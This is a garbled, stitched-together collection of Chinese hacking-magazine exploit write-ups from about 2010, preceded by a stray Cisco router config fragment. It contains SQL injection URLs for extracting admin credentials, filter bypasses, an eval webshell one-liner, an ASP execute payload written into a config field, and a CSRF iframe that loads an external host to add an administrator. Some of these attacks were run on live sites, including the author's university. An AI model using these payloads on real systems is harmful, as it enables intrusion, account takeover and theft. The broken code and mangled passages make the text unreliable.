Enter configuration commands, one per line. End with CNTL/Z.
R2(config)#ip address 192.168.3.2 255.255.255.0
R2(config)#ip ssh source-interface loopback 0
Please create RSA keys to enable SSH.
R2(config)#exit
R2#sh ip route
Gateway of last resort is not set
```

```text
R2#sh ip route
Codes: C - connected, S - static, R - RIP, M - mobile, B - BGP
C 192.168.1.0/24 is directly connected, FastEthernet0/0
C 192.168.3.0/24 is directly connected, FastEthernet0/1
R 192.168.2.0/24 [120/1] via 192.168.2.2, 00:00:22, FastEthernet0/1
```

- 图1 拓扑图  
- 图2 在 R4 远程登录到 R1  
- 图3 在 R2 远程登录 R1  
- 图4 无法访问 R1  
- 图5 R2 配置界面窗口  
- 图8 R2 配置项修改后  

#### 对 SABLOG2.X 的漏洞利用

图 Xzy（北斗黑战&ttidion）

## 一、漏洞原因

由于 Sablog-X v2.x 的 `common.inc.php` 中 `$EVO` 变量初始化处理存在空字符串和数组类型混合处理问题，导致可用 `extract()` 覆盖任意变量，最终导致 XSS、SQL 注入、代码执行等严重安全漏洞。`common.inc.php` 相关代码如下：

```php
（此处为 PHP 代码片段，包含 $success、$userinfo、$groupid、extract($_EVO) 等初始化与变量覆盖逻辑）
```

`$_EVO` 初始化过程在 `if ($sax_hash)` 里，如果这个 if 条件不满足，将跳过初始化过程。

下面代码片段可以看到，只要传入 `sax_hash` 和 `sax_uid` 这两个来自 COOKIE 的变量，就可以很容易控制 `$_EVO`，然后通过 `extract()` 覆盖任意变量。

```http
POST http://127.0.0.1/sax/p.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: 127.0.0.1
Content-Length: 138
Connection: Close

EVO[sax_uid]=1&EVO[sax_pw]=1&EVO[sax_signout]=1&...（示例参数串）
```

## 二、如何利用

既然可以覆盖任意变量，那么利用方法就很多了，比如 RFI、SQL Inject、XSS。我还是觉得 80VUL 站点后台数据最实用，下面通过构造 POC 说明如何利用。

为什么 80VUL 站点的 POC 不能直接用？先看 `cp.php` 中代码：

```php
require_once('include/common.inc.php');
...（cp.php 访问控制与登录校验相关代码）
if ($_SERVER['REQUEST_METHOD'] == 'POST') { ... }
if ($POST['action'] == 'dologin') { ... }
$gdb = $axu->addslashes($_GET['job']); $_GET['job'] = $_POST['job'];
```

利用的第一个前提是 `$ax_hash` 和 `$ax_uid` 为 false。`sax_hash` 和 `sax_uid` 可通过 cookie 得到，我们就必须把它们隐藏起来。由于本站没有实际环境，先用一个站点测试，再通过 GET 转发绕过。

注意保存时保存为本地 xml，在 form 的 action 值中去掉 cp.php，并带上：

`&EVO[sax_uid]=&EVO[sax_pwd]=&EVO[sax_hash]=&EVO[sax_group]=1&EVO[sax_auth_key]=1&EVO[snax_auth_key]=1`

之类参数。然后访问 `[timestamp]=11111111111`，再访问 `/www.xxxx.com/templates/default/header.php`，即可完成一个 suffix shell。

图3 展示了控制面板与相关设置页面。

至于修补，只要使 `$sax_hash` 和 `$sax_uid` 的布尔值为 false，并给参数做固定判断即可。我们只需修改 `include/common.inc.php`，在 `@extract($_EVO)` 前添加如下代码：

```php
if (strpos($sax_uid, "' or 1='1") !== false || strpos($sax_hash, "' or 1='1") !== false) {
    die("error try again");
}
```

## 三、如何拿 webshell

然后在后台找到“模板”——“编辑模板”——“页面头部”版块，在其中加入恶意代码即可。

```asp
set rs = server.CreateObject("adodb.recordset")
rs.open "select * from LX_admin where LX_adminname='" & replace(request.Form("username"),"'","''") & "' and LX_adminpass='" & replace(md5(request.Form("password")),"'","''") & "'"
if not rs.eof then
    response.write "ok"
end if
```

如果输入的 `' or '1'='1` 的确被过滤掉了，但对 `select * from LX_admin where LX_adminname='' or '1'='1 and LX_adminpass='...'` 这种情况仍会造成安全问题。

```vb
Function LX_Checksql(request_str)
    dim LX_sql
    LX_sql = replace(request_str,"'","''")
    LX_sql = replace(LX_sql," "," ")
    LX_Checksql = LX_sql
End Function
```## 中级｜西线无战事

### 2010 第一季


HTML 符号可以说与跨站有关系，一般程序员也许都碰过它们。这样一来，安全漏洞就会出现。由于 Access 数据库自身的原因，被某些应用对单引号过滤后，仍可能被绕过，如图 2。

这样使我们输入的 `' or '1'='1` 这类错误语句有机会生效，这些错误会让登录验证被绕过。如果将 `LX_Check` 函数通过 `'` 的所谓“前/后”处理，但又不正确替换为 `''`，就可能出现问题。

本文为 ASP 下的安全编程，但代码好像到 MSSQL 下测试就行不通了。正如 ASP 本身语言先天特性，肯定是 Access 数据库的问题。假如在 MSSQL 数据库中存在这个问题的话，我们就可以用 insert 或 update 了。这里有的地方可能会出错，这也算编程常见问题。其实我们看 Access 的 ASP 程序，有不少朋友将攻击防护封装为自定义函数，使用方便；但也有很多朋友直接用 replace 函数进行过滤，这里建议先思考，因为有一定危险性。

```csharp
public string checksql(string str)
{
    string lx_sql = null;
    lx_sql = str.Replace("'", "");
    lx_sql = lx_sql.Replace("\"", "");
    lx_sql = lx_sql.Replace("<", "&lt;");
    lx_sql = lx_sql.Replace(">", "&gt;");
    return lx_sql;
}
```

在代码页中加入如下测试代码：

```csharp
protected void Button1_Click(object sender, EventArgs e)
{
    OleDbConnection conn = new Cls().getconn();
    string sql = "select * from admin where admin='" + new Cls().checksql(TextBox1.Text) + "' and password='" + new Cls().checksql(TextBox2.Text) + "'";
    OleDbCommand cmd = new OleDbCommand(sql, conn);
    OleDbDataReader dr = cmd.ExecuteReader();
    while (dr.Read())
    {
        Response.Write("ok");
    }
}
```

在这里测试后发现，`' or '1'='1` 注入仍然可能成功。当然，.NET 常用 Parameters 参数传递来执行 SQL 语句，这样大多数 SQL 注入将失效。

本文将继续用自定义函数加强：

```csharp
public int check(string loginname,string loginpass)
{
    OleDbConnection conn = getconn();
    OleDbCommand cmd = new OleDbCommand("select count(*) from admin where admin=@loginname and password=@loginpass", conn);
    cmd.Parameters.Add("@loginname", OleDbType.VarChar, 50).Value = loginname;
    cmd.Parameters.Add("@loginpass", OleDbType.VarChar, 50).Value = loginpass;
    int i = (int)cmd.ExecuteScalar();
    return i;
}
```

在页面代码中写入如下代码：

```csharp
int k = new Cls().check(TextBox1.Text, TextBox2.Text);
if (k > 0)
{
    Response.Write("ok");
}
else
{
    Response.Write("no");
}
```

这样，就可以在 .NET 环境下较好地屏蔽 SQL 注入。但往往这样的写法很麻烦，很多程序员不喜欢这样做。在这里，我写出了一个 .NET 的通用防 SQL 注入脚本（ASP.NET 防 SQL 注入脚本 V2.0），为了节约版面，代码就不贴了。

总结一下，本文实现的 SQL 注入判断方法比较传统，但也比较麻烦。

- 要写成自定义函数；
- 需要过滤“'”“;”符号，并且位置不可以颠倒；
- 必须在 Access 数据库下才有效。

## 一次有意思的渗透

围观最大成因 [B.B.E]


快毕业了，前段时间找工作，经常上学校的网站。但是学校网站上的信息总是更新得很慢，有好多信息都是很久以前的了。看来如果能帮助学生查询会很有帮助，于是就萌生了检测一下学校网站的想法。

我们学院的网站是自己设计的，虽然不是很好看，但是学校其他学院（包括行政机构）的网站都能正常用，就我们学院有些问题。我们学院的网站如图 1，界面确实很一般，PHP 写的（PHP 总给人一种安全的感觉）。接下来就开始黑盒测试。试了些参数注入，结果都失败，貌似很难突破。由于使用独立服务器，也没办法通过旁站做更多尝试。

无奈间在另一个网站链接中，点击进去一看，原来是一位学长设计的网站储物功能，如图 2，需要注册邮箱后使用。

试了试，也没可利用的地方。不过细心地在网盘页面角落发现了一个链接：“意见反馈”，原来这里还藏着一个小型论坛，如图 3。

不知道这个是不是他自己写的，但是看了下，论坛只有一个注册用户，整个论坛也只有两个帖子。新奇之余，我看到了一丝希望，就找到了突破口。

于是来到一个可能的后台目录，没有任何收获。点击论坛上的“注册”，一步一步测试，怀疑是论坛无权限问题。

对了，网盘系统不是也有注册么？去注册里看看。我注册了一个 hackery 用户，如图 5，然后再继续尝试，成功进入！但是登录后发现功能很有限，退出后就没法直接进入论坛。我们又回到图 1 的页面，这个页面看似正常，其实涉及登录判断。

不过，先上传一个正常的 GIF 图片作为头像，自定义头像上传成功。通过图片跳转到存放路径，如图 7，大致确认了：我的头像图片名居然是 `hackery.gif`。

看到这里心里不禁一惊：设计者为了简单，直接把用户名作为头像文件名。如果用户名可控且没有过滤，会怎样？假设利用 IIS6 解析漏洞（如 `xxx.php;.jpg` 一类形式），是否就能得到 WebShell？

本文中先确认目标系统基本信息，比如系统是 Windows。接下来注册一个名为 `hackery.php` 的用户，系统没有检查用户名中的特殊字符，使得可形成 WebShell 文件名。

然后上传一个一句话木马作为头像，如图 8，成功。通过路径访问，WebShell 就这样拿到了。这个漏洞很基础，但危害很大；上传点判断薄弱时，往往可进一步拿到完整权限。


IIS6 解析漏洞让无数系统中招，具体站点就不提了，大家在杂志上也经常看到。

## 晴天电影系统 0DAY 分析与漏洞

从本文可以学到：

- 晴天电影系统 0DAY 分享
- 漏洞的利用

注入漏洞依然存在。我们一起来看 `hits_order.asp` 文件源码，如图 1。图中可以看到，`num` 参数没有进行任何过滤就直接被放到 SQL 语句里。不过不要直接复制粘贴，因为这里有 `CnKPPost` 函数。它在 `p_inc/function.asp` 文件中，包含一个判断语句，下面的 if 条件用来过滤 SQL 语句中的危险字符。可通过伪造 Referer 绕过：如果对 `http_referer` 判断不严，就可以绕过检测。


### 二、0DAY 利用

先在本机搭好测试环境，访问网站首页。构造 `http_referer` 值有三种方法：

- 通过站内发帖等页面自动设置 referer；
- 通过 HTML 页面构造 Referer；
- 通过 XMLHTTP 伪造 Referer。

图 3 构造数据


下面用第二种方法构造 `http_referer`，即“浏览器伪造”POST 提交方式。只要 `http_referer` 除去前 8 位后的值等于 `server_name`，就能绕过 `chkpost` 函数检测。


### 三、后台 Cookie 认证漏洞

查看后台验证文件 `admin/inc/public.asp`，发现后台利用 Cookie 进行验证。若账号不对，md5 不应匹配；但可以构造 Cookie 数据骗过验证。图中可见，验证与 `admin_h`、`admin_p` 等关键变量相关，只要这些变量符合验证逻辑即可登录后台。

只要有 `sooj_session_a` 且其值可控，就可能被利用：`admin_flag=0` 表示超级管理员，`admin_m=3` 不能为空，`admin_u=admin` 是管理员用户名，`admin_p=49ba59...` 是密码加密值。系统会据此拼接 SQL 查询，进而可能被注入利用。

下面用 Cookie 操纵登录后台，这里用 Cookie Editor 修改值，其他工具也可。

- 依次进入“常规管理”→“网站基本参数设置（简单模式）”，可编辑配置文件 `p_inc/config.asp`，写入一句话木马并保存，然后访问 `http://127.0.0.1/p_inc/config.asp`。
- 依次进入“权限管理”→“其他文件读取编辑”，可新建文件。勾选“自动创建不存在的文件”，在“文件路径”输入保存路径，点击“编辑”新建文件，在文件内容里写一句话木马并保存。

## 四、总结

晴天电影网站系统漏洞的产生，主要是程序员对用户提交数据过于信任，认为用户不能随便修改 `referer` 值。实际上并非如此，这只能说明网站安全性设计不到位。

本文使用的工具都比较常见，有不明白的地方可以到《黑客手册》论坛查资料，前台论坛也有 `rabbitsafe`。


## 晴天电影系统（续）——利用社工跨站再次拿下系统

从本文可以学习到：利用社工跨站进行利用。

我上一篇文章《晴天电影系统的漏洞分析与利用》，主要讲了通过构造 `http_referer` 触发 SQL 注入，解出管理员账号和口令，再进入网站后台。

后来我在本机搭建环境，按前面的案例复现，发现很多常规页面都可利用，后台也能触发。下面继续。


现在看“影片报错”处理详情，在 `alert` 内容里写入 `<script>alert('by rabbitsafe')</script>`，点击“报错”提交，会提示并发送成功。随后登录网站后台，点击“影片报错处理”查看报错信息，如图 2，跨站成功。


图 2 跨站成功  
图 3 管理员列表

把 `action` 修改成 `../admin/system/add_save.asp`，把用户登录账号设成一个值，我这里设置为 `value="test"`。

如果管理员添加成功，系统就会增加一个 `test` 管理员。再在页面加入 `<script>document.form1.submit()</script>`，意思是页面打开就自动提交表单。

这句话非常重要：管理员可能会到后台查看我们提交的报错信息，只要他访问，就会自动添加管理员。

怎么让页面自动提交？就要改这段代码。`form1` 是表单 `name` 的值。修改后把文件后缀改成 jpg，传到外网，再到前台“影片上传”处加载该静态地址，代码如下：

<iframe src=http://xxx.com/1.jpg width="0" height="0" frameborder="0"></iframe>

```html
```

先看后台管理员列表，只有一个 admin 管理员，如图 3。

再访问一遍“影片推荐”页面并刷新，理论上已添加管理员。再到“管理员列表”查看，如图 4，添加成功。

从图 4 可见，`test` 管理员已添加。只要能正常登录后台并具备管理员权限，就很容易拿到 WebShell。

### 二、实战

我用的网站地址是 `http://www.111.com/`，把 `1.jpg` 传到我的空间：`http://www.222.com/1.jpg`。

在目标站找一个影片，在“影片路径”处写入：

`<iframe src=http://www.222.com/1.jpg width="0" height="0" frameborder="0"></iframe>`

然后到首页查看该影片，触发外部文件加载。再观察后台管理员列表变化，若成功即可进一步拿到 WebShell。

过了一天，站长回了信息。我马上登录后台，管理员查看“报错影片”信息后，系统中已经出现了 `test` 账号。

下面就是拿 WebShell，方法也很简单，后台有个“其他文件管理”功能。


### 三、总结

本文主要说明如何通过跨站方式拿到网站权限。构造跨站代码可以实现很多功能，例如改页面、记录用户 Cookie、加载外部资源、引导后台操作等。这个例子就是比较常见的利用手法。

编辑点评：跨站漏洞的严重性已被越来越多人重视，尤其是结合社工时，利用链条会很长、危害很大。本例就是典型案例。

从本文可以学习：

- DVBB8.2 插件上传漏洞分析
- 漏洞的利用

今天在整理 DVBB8.2 插件上传漏洞利用方法时，发现有人贴出过相关内容，但讲得不够清晰，不太容易看懂。


### 2010 第一季

## 新闻练练看 | Middle-Level

然后点“保存设置”按钮，接下来单击“自定义风格”按钮，在“样式风格 CSS 选项”里任意输入几个字符，如图4所示，然后单击“保存设置”完成修改。

注意：

- （1）有些论坛需要自己浏览论坛主页，存在论坛程序本身原因，故建议先在首页或分类页下打开个人空间并进行设置。
- （2）有些论坛使用单独的上传功能，上传界面如图5所示。
- （3）如果发现论坛有反映的上传限制，请先关闭相关设置或尝试其他上传方式。
- （4）无上传界面时，在“个人空间管理”中单击“自定义风格”，然后进入“文件管理”窗口，接着按系统默认的文件管理窗口进行操作即可。

## 二、首发受理

- 1、使用 Google 搜索

使用 Google 搜索 Dvbbs 版本信息，“Powered By Dvbbs Version 8.2.0”，如图1所示，结果很优，能看到大量搜索记录。

- 2、注册用户

随机进入一个论坛，打开论坛后直接注册新用户，如图2所示，按照要求进行注册。

- 3、修改样式

使用注册的用户登录论坛后，单击论坛中某类主页，进入个人主页管理，然后点击“个人空间管理”标签，在“个人主页设置”中设置背景图片、图片说明、颜色等，最后保存设置。

## 三、越挫越勇

- 1、成功上传文件

重新找了十多个论坛，新建一个简单木马 1.asp，然后上传到论坛中，并将文件名称改为 1.jpg，最终上传成功后，使用论坛内的默认上传接口可显示。

- 2、使用一句话客户端进行连接

使用 KaeZIV/Client 进行连接，在“Cmd”中输入“Password”，将一句话木马的连接密码设置为 cmd，然后在功能中选择一个模块，单击 send 即可查看其执行结果。

- 3、获取网站的物理路径

在功能模块中选择“Server Variable”即可获取服务器的一些基本信息，如网站路径、虚拟目录以及服务器端口等。

- 4、提权/解析

使用 Serv-U 或 FTP 提取网站密码，或使用其它方法进行进一步的权限获取。

nohack.me 121

## 刀客建站系统上传漏洞 0Day 分析和利用

从本文可以学到：刀客建站系统漏洞分析和利用。

今天分析的是一款名为“刀客建站系统”的 PHP 程序，此系统支持单站程序、代码带码带点……（原文较模糊）。

下载地址：http://dawo.chin…/2487.htm  
官网：http://www.sitephp.cn/

### 1、重定向跳转

打开 download_soft.php 文件，相关代码如下：

```php
$download_url = $_GET['download_url'];
if($software_id && $download_url){
    header("Location: {$download_url}\r\n");
    exit;
}
```

### 2、上传漏洞

打开 support.php 文件，相关代码如下：

```php
function save_leave_word(){
    if($_FILES['attachment']['name'] && $leave_word_setting['is_attachment']){
        require_once('upload_file');
        if($_FILES['attachment']['error'] == 0){
            $upload_obj->upload();
            $attachment = ...;
        }
    }
}
```

又一个重定向跳转，看你怎么利用了。

- 3、上传漏洞  
打开 support.php 文件，相关代码如下：
- 4、规范上传图片的代码，校验上传图片文件的代码段，或者在论坛的后台上传功能关闭。
- 5、规范上传脚本的代码，校验上传图片文件的代码段，或者在论坛的后台上传功能关闭。

## 2010 第一季 新洞练练看 | Middle-Level

条件【1】处所要满足 `$_FILES['attachment']['name']` 与 `$leave_word_setting['is_attachment']` 都为真，`$_FILES['attachment']['name']` 为上传文件名。`$leave_word_setting['is_attachment']` 来源于 `storage_decode($glo_config_arr['leave_word_setting']['value'])`，也就默认认为此情况下可以执行图片、删除等相关操作。对 glo_upload.php 中，尤其是 upload_file() 函数：

```php
function upload_file($file_arr, $type, $name=""){
    if(!$file_arr['name']){
        return false;
    }
    if($file_arr['error']){
        return false;
    }
    if(!$name){
        $name = $file_arr['name'];
    }
    $upload_dir = $this->get_upload_dir($file_arr, $type);
    $upload_dir .= '/' . $name;
    if($this->copy_upload_file($file_arr, $upload_dir)){
        ...
        return $upload_dir;
    }
    return false;
}
```

【5】处将上传文件的文件名用 `base64_encode()` 编码，然后取其中一个字符用 `strtolower()` 转换为小写赋给 `$top_n`，再在【6】处与 `upload_dir.'/'` 相连接，赋给 `upload_dir`。`get_upload_dir()` 函数返回该目录路径，我们再调用 `upload_file()` 函数，接着【7】行将路径和文件名结合后组成最终上传地址，最后使用 `copy_upload_file()` 函数将文件拷贝至相应目录。

上传过程中没有做任何过滤，只是简单操作，故可在【5】处通过变量控制路径写入 shell。

- 3、实例演示

这一个案例站点，我们上传的文件名为 evil.php，内容如下：

```php
<?php
    eval($_REQUEST['month?0x7']);
?>
```

对应的路径为 `/upload/leave_word_attachment/z/evil.php`。首先我们打开 `http://www.sunkk.com/support_attachment.php?month`，按照图片再上传一个，后面提交得到支持上传文件，实现上传到附件目录，最后结果如下图所示。提交表单后即可上传成功。

## shopyxp 网上购物系统最新版本 0DAY 分析与利用

从本文中可以学到：

- 1. shopyxp 网上购物漏洞分析
- 2. 漏洞的利用

大家好，今天在“构知堂”的 Blog 上看到了 shopyxp 网上购物系统最新版本 0DAY。这个大家就不要再讨论了，不知道是什么方法、该怎么利用？这会不会是首页里任何人皆可上传木马，进入后台就可以轻松拿到 WebShell 了。

## 一、0DAY 分析

首先去 shopyxp 的官方下载安装新系统。shopyxp 网上购物系统有两个版本，一个是免费版 asp+access 数据库，这里主要讲的是免费版 asp+access 数据库程序。shopyxp 网上购物系统的漏洞主要出现在防注入程序过滤不严，导致用户对变量编码等进行修改，可以轻松通过防注入程序。

代码中先通过 `Request.ServerVariables("QUERY_STRING")` 取到 URL 的原始数据，再并不允许 URL 编码，这样我们就可以通过 URL 编码绕过这个防注入程序的检查。接着判断变量值是否含有定义的关键字。如果有的话，就改为给定值 A；如果没有则保持不变。问题就在于，`Request.ServerVariables("QUERY_STRING")` 得到客户提交的字符串，这里并不会自动对 URL 解码，如果我们把 name 进行 URL 编码再提交，就可以轻松绕过防注入程序检查。

我们把这样的 URL 值：

`http://127.0.0.1/xPCatalog_xpDesc.asp?action_key_order=big&shopboxpb_id=79 and 1=2`

丢给注入程序后，会把 `action_key_order=big&shopboxpb_id=79 and 1=2` 的值取出，然后通过 split 函数以“&”为界分，对获取的值进行处理。变量 `action_key_order` 和 `shopboxpb_id` 的值再通过防注入程序处理，这样就没有办法绕过该注入程序检查。

如果把 URL 改成：

`http://127.0.0.1/xPCatalog_xpDesc.asp?action_key_order=big&shopboxpb_id=69%26and%201=2`

“&”后面的值是 `shopboxpb_id=69` 和 `and 1=2`。我们对其进行 URL 编码后，程序就会在检查中只取出 `shopboxpb_id=69` 这个值。因为编码后的 `&` 未被当作参数分隔符，故可形成新的变量值，绕过检测几率很大。

## 二、0DAY 利用

下面举一个漏洞实例：在官网下载最新版本程序，本机搭建测试环境，访问网站首页正常显示。下面构造 URL 编码后的地址：

正常情况下的地址是：

`http://127.0.0.1/xPCatalog_xpDesc.asp?action_key_order=big&shopboxpb_id=57`

URL 编码后的地址是：

`http://127.0.0.1/xPCatalog_xpDesc.asp?action_key_order=big&shopboxpb_id=%69=57`

只要把“&”后的变量进行 URL 编码即可，URL 编码可查表得到。

接下来就用工具辅助利用。免费版管理后台表是 `shopbox_admin`，商业版管理员表名是 `shop_admin`，默认后台是 `admin_shopbox` 或 `admin_shopbox_admin`。我们得到表名后即可进一步利用参数解码与注入构造。

`xPCatalog_xpDesc.asp` 是显示网页商品目录列表，`xpCatalog_xpmall_Desc.asp` 显示商品介绍。

## 三、后台拿 WebShell

下面是后台拿 WebShell 的方法，这个版本默认后台是 admin，我们利用前面方法构造登录账号取回后台。

后台拿 WebShell 的方法：

- 1. 后台可上传图片，图片目录默认解析动态脚本，存在上传漏洞。上传图片文件名如 `uipfilejpg_get.asp`，但系统设置不保留原后缀。若配合 session 与文件包含可进一步利用。
- 2. 在现有数据库里为上传到的图片设置好 Cookie 值，若 Cookie 值为空则登录。
- 3. 如果上传图片中没有设置，或者使用不了，可以试试数据库备份。这里上传的文件名是 `upm2.asp`，多数情况下先改名为 jpg 再上传即可。

上面两种方法是拿 WebShell 最常用的。由于数据库有“防下载”处理，不在数据库里显示时，可通过图像备份等方式拿到 WebShell。

## 四、总结

shopxp 网上购物系统漏洞主要由于网站程序不够严谨，防注入程序写法也存在问题，在实际使用中导致 URL 编码即可绕过防注入检测。文章中使用的工具我会一一介绍，如有不全面之处，可以到《非安全战线》找我，我的论坛 ID 是 rabbitsafe。

编辑寄语：shopxp 网上购物系统安全性较差。本文内容用于练习，虽然主要讲注入漏洞及其绕过，但也涉及其他安全构造思路，较有参考价值。

124 nohack.me

## PHPvod 漏洞分析和发掘

从本文可以学到：

- 1. 基本漏洞挖掘的思路
- 2. 寻找漏洞的一些技巧

这次我们研究的是 PHPvod 系统漏洞，这是一个视频发布和共享系统。

```php
if($field){
    if($field=='author' || $field=='year')
        $sql .= " AND $field LIKE '$keyword'";
    else
        $sql .= " AND $field LIKE '%$keyword%'";
}

if($orderby){
    $orderby = 'instotn';
    if($asc){
        $asc = 'DESC';
    }
    $orderby = " ORDER BY $orderby $asc";
}

$str = $db->get_one("SELECT COUNT(*) AS sum FROM pv_video WHERE $sql");
```

其实 keyword 就是提交参数，即搜索内容。我们最需要注意的是 `keyword = urldecode(trim($keyword))`。其中 `urldecode` 用于解码已编码 URL 字符串，这样我们就可以提交经过编码的注入语句，然后程序会自动解码，而且提交的编码数据可能不被过滤。

具体操作就是把 `1%' and 1=1) #` 和 `1%' and 1=2) #` 分别进行 URL 编码。

大家了解了搜索类漏洞后，再看第二个。reply.php 文件相关代码如下：

```php
if($action){
    $action = strtolower(trim($action));
    if(!empty($action) && $page < 1 && $page)
        $limit = "LIMIT ".(($page-1)*$db_readpage).",".$db_readpage;
    $pages = "";
    $sql = "SELECT * FROM pv_reply WHERE vid=$vid AND [sort] ORDER BY postdate DESC $limit";
}
```

可以看到 `$vid` 参数未经充分过滤进入 SQL 查询，而且是数值型，不受单引号影响。直接在后面加 `and 1=1` 和 `and 1=2` 即可看到结果。

当我们进行 `order by` 测试时，即使 `order by 1` 也会报错。根据报错提示定位文件第16行，发现提交的 vid 又带入了第二个查询，这就是出错原因。解决方法是加 `#`（MySQL 注释符），例如：

`http://127.0.0.1/reply.php?vid=1%20order%20by%201%20#`

访问即可。

再看第三个漏洞，出问题文件是 profile.php。至于后台拿 WebShell，只需在后台上传构造处添加 asp 或 PHP 类型即可，然后上传，剩下可自行测试。最后再看后台权限验证问题，漏洞文件 admin.php（代码略），访问：

`http://127.0.0.1/admin.php?adminjob=admin`

可见权限控制缺陷。

```php
if($id=='1') {$showmsg['guest_info'];}
$userdb=...;
$userdb['uid']=...;
$query='SELECT ... FROM pw_members ...';
$where='uid='.$id; ...
```

可见 `id` 参数未过滤。若输入单引号可能被 PHP 过滤，此处可利用双字节编码绕过。具体方法是在单引号前加 `%df`，URL 如下：

`http://127.0.0.1/profile.php?action=show&fid=2%df'%20or%201=1%20%23`

关于原因可查询“双字节编码漏洞”。

编辑点评：本文比较朴实，主要讲述了漏洞形成和分析过程，适合新手学习。通过此类手法，可在较短时间掌握基本 SQL 注入方法。

126 nohack.me

#### XxaspDisk V3.3.2 注入 0day

从本文你可以学到：
- XxaspDisk 系统漏洞分析
- 漏洞的利用和 WebShell 的获取方法

XxaspDisk 是一套非常不错的网络硬盘整站程序，该系统同时支持 Access2000 和 MSSQL 数据库，支持国内外多个上传组件，因此自动生成的路径和水印，系统从程序架构层面上防止上传漏洞，防止任何恶意脚本文件的上传。


### 一、漏洞分析

下载 XxaspDisk V3.3.2 到虚拟机系统 Windows 2003 中，安装过程较简单，安装完成后如图 1，界面简洁大方，清新美观，但是不免略有不足之处？


从这里我们看到，在进行文件搜索时，这个文件获取了不少参数，但却没有进行有效的过滤。继续看，在 MyTopField 里，它是一个用于控制 SQL 的字段值，可随着后面的参数自动拼接成一个字段列表。

```sql
Dim MyOrder,MyCondition,MyTopField,SearchType,SearchCondition
SearchType=Trim(Request("SearchType"))
SearchCondition=Trim(Request("SearchCondition"))
If SearchType="" Then SearchType="1"
If SearchCondition="" Then SearchCondition="1"
MyTopField="1"
```

```html
<table width="99%" border="0" align="center" cellpadding="2" cellspacing="1" class="tab6">
<tr>
<td height="50" align="center" valign="middle"><font color="#FF0000">抱歉，没有查到任何文件!</font></td>
</tr>
</table>
```

```sql
Dim Temp, SQL
SQL="Select " & MyTopField & " a.F_ID, a.F_A, a.F_Path, a.F_PrePath, a.F_Store, a.F_Grade, a.F_Accl, a.F_AddTime, a.F_Area, a.F_DownloadTimes, a.F_IsShare, a.F_IsType, a.F_AfterName, a.F_Or, a.F_AddUser, a.F_Bar, a.F_Link, a.F_SubUrl, a.F_Del, a.F_Url, a.F_Source, a.F_Name, a.F_CatName, a.F_Title, a.F_Link, a.F_Brand, a.F_Link, a.F_U, a.F_..."
```

比如在 Access 数据库中，对于 NotDownload 表，我们可以看到其字段几乎和数据库中的其他表一致，说明该字段用于记录下载限制。

### 二、漏洞利用

在利用这个漏洞之前，我们需要知道数据库的结构，如图 4，管理员账户储存在 TW_Admin 表下，账户名字段是 AdminName，密码字段是 AdminPwd。

我们先来注入一个用户，然后登录，如图 5。此时我们便可以访问到 ShareList.asp 了，构造 URL：  
"http://192.168.23.129:8000/ShareList.asp?Action=Main&SearchType=SearchFileType&SearchCondition=err' and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from TW_Admin where '1'='1'"，开始导出字段，访问如图 7。

我们就先把第 12、13 位地址栏对应管理账户字段取出，密码也一起提交：  
"http://192.168.23.129:8000/ShareList.asp?Action=Main&SearchType=Search&Condition=rar' and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,AdminName,AdminPwd,14,15,16,17 from TW_Admin where '1'='1'"，显示结果如图 8。ID 为 1 的用户名和密码出来了！


就这么简单，拿到管理员账户了，接下来就是破解 MD5。如果运气好的话，得到明文密码，然后点击保存后即可执行，地址是：http://192.168.23.129:8000/admin/Admin_Login.asp。

其实后台拿 WebShell 有很多方法：

- 方法一：大家看图 9，前台这个“快速通道”，系统基本设置中“网站标题”输入一段能够执行的语句，比如可以构造网站标题值为：`"><%execute request("#")%>`，这样写入 Conf.asp 文件后就可以得到 WebShell。
- 方法二：同样是直接输入后台“快速通道”→“系统基本设置”中“快捷通道”选项，写入一段可执行内容。
- 方法三：在“文件类型”中将 asp 类型放开，如图 10。


然后在前台上传一个 asp 木马，再打开后台“文件管理”→“系统文件管理器”，其实这还是一个不错的 FSO 管理器，在“UploadFiles”找到自己的用户名，复制自己的上传文件下载 URL，如图 11。我们将 asp 木马地址设为：  
http://192.168.23.129:8000/UploadFiles/czzy/2009/12_2_105848/xiaoma.asp  
访问后得到 WebShell 了。

这就是利用 IIS 的解析漏洞。目标解析漏洞包括两种：

- 第一种：建立一个 `.asp` 结尾的目录，将 asp 木马或源码放入后即可得到 asp 解析结果，也就能得到 WebShell。此方法可以通过后台“快速通道”→“系统基本设置”来修改上传文件夹“UploadFiles”的名字。
- 第二种：前段时间的 `xx.asp.xx.jpg` 解析漏洞。

这两种利用方法都很简单，不懂的可以 Google 一下。


### 三、总结

这套系统比较老了，也不需要在互联网上找站点来试验，我已验证过了。防御办法也有很多，可以改后台路径等。

防护文件等等，这几天系统官网（www.xxasp.net）一直不能访问，估计是被人搞了。这个漏洞比较隐蔽，而且利用起来也不比普通注入容易。拿到后台账户之后，拿 shell 的方法也不少，可见后台防护做得并不完善。编辑点评：本文也只是技术探讨，漏洞还比较多，方法主要可从其上传文件处下手，也是比较经典的方式，请大家注意。

#### CSRF with Flash

从本文可以学到：
- Flash 的一些安全策略
- 如何通过 Flash 来进行 CSRF

Flash 为 Web 带来了良好的用户体验，同时也带来了一些安全方面的问题。相比于站点成熟的安全策略，Flash 的安全性成了一块短板。尤其是在大多数客户端都安装了 Flash Player 的情况下，一旦 Flash 安全机制出现问题，浏览器的安全策略都可能被绕过。

SWF 文件可以打破浏览器的同源策略，在对方域的 crossdomain.xml 文件设置允许的情况下与对方的任何文件通信。默认情况下，SWF 文件不仅可以读取 GET 请求参数，还可以对 GET 或 POST 发起请求，而这并不需要对方站点的 CORS 跨域支持。

在 Flash 的安全策略里也提出其种种限制。用户可以通过在嵌入 SWF 的 HTML 中设置允许网络请求属性来控制 Flash 与外部的通信。

可以看到，在设置为 `"all"` 时，Flash Player 不会限制任何网络通信；在设置为 `"internal"` 时，禁止了 SWF 文件与源页面之外的 API 通信；在设置为 `"none"` 时，SWF 文件将仅限于进行纯粹的本地通信 API。

注意 `allowNetworking="internal"` 可用于 SWF 文件和 SWF 文件之间的通信。换句话说，它并不是阻断全部 SWF 间通信，而仅仅针对网络访问 API。

